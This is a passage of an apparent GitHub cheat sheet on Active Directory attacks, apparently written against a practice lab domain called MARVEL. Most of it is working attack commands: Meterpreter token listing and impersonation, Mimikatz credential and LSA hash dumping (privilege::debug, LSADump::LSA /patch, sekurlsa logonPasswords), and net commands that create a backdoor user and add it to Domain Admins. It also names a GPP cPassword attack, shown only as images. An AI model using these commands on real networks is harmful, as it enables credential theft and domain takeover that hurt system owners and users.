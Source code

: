 To see all tickets on meterpreter
```bash
meterpreter > list_tokens -u
```

To impersonate user:
```bash
meterpreter > impersonate_token MARVEL\\administrator
```

To dump hashes:
```bash
mimikatz(powershell) # privilege::debug
mimikatz(powershell) # LSADump::LSA /patch
```

How to add a new user:
```powershell
net user /add hawkeye Password1@ /domain
```

How to add user into group:
```powershell
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

GPP attack(cPassword attack)=>
Sample Groups.xml file=>
![image3](images/image3.jpg)

Cracking password=>
![image4](images/image4.jpg)


Credential Dumping with Mimikatz=>

Mimikatz:https://github.com/gentilkiwi/mimikatz

Below command is must on Mimikatz!
```bash
mimikatz # privilege::debug
```

Reminder! When you write module_name then put "::" then , clicking Tab, you can get **HELP**

1.sekurlsa : This module is used to enumerate credentials.
Example:
```bash
mimikatz # sekurlsa:logonPasswords
```
